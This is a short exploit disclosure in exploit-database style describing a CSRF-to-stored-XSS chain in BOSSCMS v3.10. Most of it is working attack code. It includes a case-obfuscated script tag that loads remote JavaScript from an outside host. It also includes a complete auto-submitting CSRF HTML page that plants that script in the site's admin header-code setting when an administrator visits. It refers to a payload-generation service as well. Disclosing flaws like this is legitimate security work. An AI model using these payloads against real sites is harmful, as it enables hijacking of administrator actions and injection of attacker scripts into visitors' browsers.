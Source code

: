 # BOSSCMS has CSRF and storage-optimized XSS

**Exploit Title:** BOSSCMS has CSRF and storage-optimized XSS

**Date:** 2024-04-01

**Exploit Author:** 

**Vendor Homepage:** https://gitee.com/Greenpeas/BOSSCMS

**Software Link:** https://gitee.com/Greenpeas/BOSSCMS/archive/refs/tags/V3.1202310281625.zip

**Version:** Bosscms v3.10

bosscms xss link:https://github.com/ss122-0ss/BOSSCMS/blob/main/readme.md



csrf

In name="head_code" or name="foot_code", add payload, the payload here is

```
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

payload can be generated at https://xssaq.com/



![image-20240403102952903](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403102952903.png)

Put the HTML in a CSRF. In HTML, an administrator access to the http://127.0.0.1/csrf.html page, will automatically trigger modify code, triggering payload

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/bosscms1/admin/?mold=site&part=code&func=add" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="head&#95;code" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="hidden" name="foot&#95;code" value="test" />
      <input type="hidden" name="head&#95;mobile&#95;code" value="" />
      <input type="hidden" name="foot&#95;mobile&#95;code" value="" />
      <input type="hidden" name="csrftoken" value="sk92ef5fq7e14j0lcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20240403103230900](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403103230900.png)

